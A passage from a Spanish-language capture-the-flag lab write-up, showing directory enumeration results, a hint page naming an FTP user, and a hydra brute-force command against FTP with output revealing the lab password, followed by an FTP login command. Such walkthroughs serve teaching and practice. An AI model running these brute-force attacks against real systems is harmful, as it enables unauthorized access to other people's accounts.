 ```
/private.txt          (Status: 200) [Size: 64]
/secret.html          (Status: 200) [Size: 172]
/.html                (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos `2` cosas interesantes una de ellas llamada `/private.txt` y la otra `/secret.html`.

Si nos descargamos el `private.txt` veremos que si lo leemos estara encriptado, por lo que tendremos que desencriptarlo, pero lo dejaremos para mas tarde.

Si entramos al `secret.html` veremos lo siguiente:

```
The ftp user is admin, but the password is ...
You must discover it.
A hint: The rockyou diccionary is correct for use!
```

Aqui vemos que podremos utilizar fuerza bruta con el usuario `admin` con el diccionario `rockyou.txt` sobre el `FTP`.

## FTP

```shell
hydra -l admin -P <WORDLIST> ftp://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-23 05:30:06
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://172.17.0.2:21/
[21][ftp] host: 172.17.0.2   login: admin   password: banana
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-23 05:30:29
```

Vemos que conseguimos las credenciales, por lo que nos conectaremos a dicho puerto de la siguiente forma:

```shell
ftp admin@<IP>
```
